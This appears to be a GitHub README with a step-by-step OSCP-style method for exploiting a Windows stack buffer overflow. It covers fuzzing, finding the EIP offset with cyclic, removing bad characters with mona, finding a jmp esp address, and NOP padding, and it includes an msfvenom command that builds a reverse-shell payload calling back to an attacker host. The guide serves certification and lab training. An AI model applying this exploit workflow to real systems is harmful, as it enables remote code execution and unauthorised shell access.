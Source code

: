 After passing OSCP, various people have asked about my process for the buffer overflow.  Well, here it is.  A few things to note:

1. You should take the time to come up with your own methodology that makes sense to you.
2. My method/scripts uses python3 and pwntools.
3. I am not a professional python programmer, there is likely better ways to do it.
4. The usual disclaimers about doing things at your own risk apply.

-------

#### 1. Start Immunity/app as administrator

#### 2. Confirm connectivity from attack host
```
nc xxx.xxx.xxx.xxx <port>
```

#### 3. Fuzz for crash (See fuzzer template)
```
[root@kali:/r/bof]# python3 fuzzer.py
```

#### 4. Generate cyclic pattern to find exact crash
```
[root@kali:/r/bof]# cyclic 300
aaaabaaacaaadaaaeaa [ .. snip .. ] afaaagaaahaaaiaaa
```

#### 5. Add pattern to "overflow" in exploit.py and repro crash

#### 6. Get offset from address in EIP and set "offset"
Get address in EIP and find number of bytes to EIP:
```
[root@kali:/r/bof]# cyclic -l 0x61616275
2003
```

#### 7. Remove cyclic pattern from "overflow" and replace with "A" * offset
```
offset = 634 # EIP @ 0x616A6761
overflow = b"A" * offset
eip = b"BBBB" # 
```

#### 8. Replicate crash and confirm "B" in EIP

#### 9. Find Bad Characters with mona
- Set working dir:
`!mona config -set workingfolder C:\Windows\Temp`
- Create bytearray (without bad chars we know about)
`!mona bytearray --cpb "\x00"` 
- Include list chars in payload (without \x00)
```
badchars = [0x00] # start with null
```
- Repro crash with charpayload
- After the crash use mona to find the next bad char:
`!mona compare -f C:\Windows\Temp\bytearray.bin -a esp`
- Note new bad char, add it to "badchars"
- Repeat steps until no new bad chars are reported

#### 10. Find Jump Point using bad chars (running or crashed) - will be in "Log Data" window
```
!mona jmp -r esp -cpb "\x00\x23\x3c\x83\xba"
```

#### 11. Put jmp address in "eip" var backwards (little endian)
```
eip = b"\xfa\x11\x50\x62" # 625011AF
```

#### 12. Generate shellcode without bad chars and add as "sc" var
```
[root@kali:/r/bof]# msfvenom -p windows/shell_reverse_tcp LHOST=10.10.10.230 LPORT=6666 EXITFUNC=thread -b "\x00\x23\x3c\x83\xba" -f python -v sc
```

#### 13. Add shellcode

#### 14. Add NOPs as needed and comment out "charpayload"
```
padding = b"\x90" * 16
```
#### 15. Get shell 
